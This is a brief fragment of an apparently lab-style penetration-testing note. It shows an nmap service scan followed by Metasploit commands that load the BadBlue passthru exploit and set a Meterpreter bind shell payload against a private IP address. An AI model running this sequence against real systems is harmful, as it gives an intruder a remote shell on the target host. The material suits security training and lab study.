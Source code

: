 ```bash
db_nmap -sS -sV -p 1234 localhost
```

<figure><img src="../../../../../.gitbook/assets/image (44) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (45) (1).png" alt=""><figcaption></figcaption></figure>

```bash
search type:exploit name:badblue
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS 10.2.21.166
set LPORT 4433
exploit
```
